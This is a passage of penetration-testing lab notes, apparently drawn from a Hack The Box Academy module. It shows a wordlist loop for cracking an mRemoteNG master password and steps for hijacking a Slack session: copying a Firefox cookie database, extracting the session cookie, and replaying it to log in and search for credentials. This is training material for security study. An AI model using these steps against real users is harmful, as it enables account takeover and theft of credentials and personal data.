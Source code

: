 **For Loop to Crack the Master Password with mremoteng\_decrypt**

{% code overflow="wrap" %}
```bash
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done
```
{% endcode %}

## Abusing Cookies to Get Access to IM Clients

> instant messaging (IM) applications like `Slack` and `Microsoft Teams`

**Cookie Extraction from Firefox**

Firefox saves the cookies in an SQLite database in a file named `cookies.sqlite`. This file is in each user's APPDATA directory `%APPDATA%\Mozilla\Firefox\Profiles\<RANDOM>.default-release`.

**Copy Firefox Cookies Database**

```powershell-session
PS C:\htb> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

{% embed url="https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py" %}
to extract cookies from the Firefox cookies.SQLite database.
{% endembed %}

**Extract Slack Cookie from Firefox Cookies Database**

```shell-session
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

(201, '', 'd', 'xoxd-CJRafjAvR3UcF%2FXpCDOu6xEUVa3romzdAPiVoaqDHZW5A9oOpiHF0G749yFOSCedRQHi%2FldpLjiPQoz0OXAwS0%2FyqK5S8bw2Hz%2FlW1AbZQ%2Fz1zCBro6JA1sCdyBv7I3GSe1q5lZvDLBuUHb86C%2Bg067lGIW3e1XEm6J5Z23wmRjSmW9VERfce5KyGw%3D%3D', '.slack.com', '/', 1974391707, 1659379143849000, 1658439420528000, 1, 1, 0, 1, 1, 2)
```

{% embed url="https://cookie-editor.cgagnier.ca/" %}
After getting the cookie from firefox we can use this extension to add it to our browser.
{% endembed %}

![Navigate to slac.com and modify the value of d cookie](https://academy.hackthebox.com/storage/modules/67/replace-cookie.jpg)

![Refresh the page and see that you are logged in as the user.](https://academy.hackthebox.com/storage/modules/67/cookie-access.jpg)

![add the cookie again](https://academy.hackthebox.com/storage/modules/67/replace-cookie2.jpg)

After gaining access, we can use built-in functions to search for common words like passwords, credentials, PII, or any other information.

![Gaining access and finding credentials.](https://academy.hackthebox.com/storage/modules/67/search-creds-slack.jpg)
